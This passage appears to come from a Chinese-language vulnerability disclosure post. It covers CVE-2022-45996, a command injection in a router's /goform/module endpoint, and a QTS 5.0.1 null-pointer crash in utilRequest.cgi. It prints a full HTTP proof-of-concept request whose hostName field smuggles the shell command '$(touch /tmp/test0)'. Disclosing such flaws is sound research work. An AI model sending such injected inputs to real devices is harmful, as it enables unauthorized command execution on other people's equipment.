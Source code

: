 功能数据包如下，我们将使用它来构建poc。  
```
POST /goform/module?1668695093889 HTTP/1.1
Host: 192.168.0.1
Content-Length: 87
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=3392
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=70ebc4f9c9d22827a5874d1bb6f06abddwdvmy; bLanguage=cn; sessionid=W20Ev5:0.167.3:6b0846
Connection: close

{"setFixTools":{"networkTool":1,"hostName":"test$(touch /tmp/test0)","packageSize":32}}
```  
## Recurring vulnerabilities and POC  
  
为了重现该漏洞，可以遵循以下步骤:1.连接物理设备2.用POC攻击  
  
POC和复制结果如下:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibsx4ibOQCBSVXGNwogSJvYFrGrvx3trc2OBO0xSQwoIBnC5mScSibA3BMbDZZlxDEkA9icibencluHqicg/640?wx_fmt=png "")  
  
图显示了POC攻击的效果，创建了文件test0。  
## CVE-ID  
  
CVE-2022-45996CVSS Version 3.x socre: 7.2 high  
  
# QTS 空指针引用漏洞  
## 漏洞信息  
  
我们在 QTS 5.0.1 中发现了一处空指针引用漏洞。如果该漏洞被利用，可以对 QTS 系统造成 DoS 攻击，或者使用精心构造 payload 实现在 QTS 系统上执行任意代码。  
## 影响版本  
  
我们在以下版本中验证了该漏洞的存在：  
- QTS 5.0.1.2277  
  
## 复现漏洞  
  
编写脚本，运行之后填入正确的用户名、密码以及设备的地址。脚本将会构造 payload 并发送到目标设备，造成设备上的 utilRequest.cgi 程序崩溃。从设备的响应内容中也可以看出，程序发生了段错误并异常退出。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibsx4ibOQCBSVXGNwogSJvYFrvnSFsLPfNL19gR9iaI8eYVVbuI9nNW0Ptxeiab8R8KnuQBujdrQbrRRw/640?wx_fmt=png "")  
  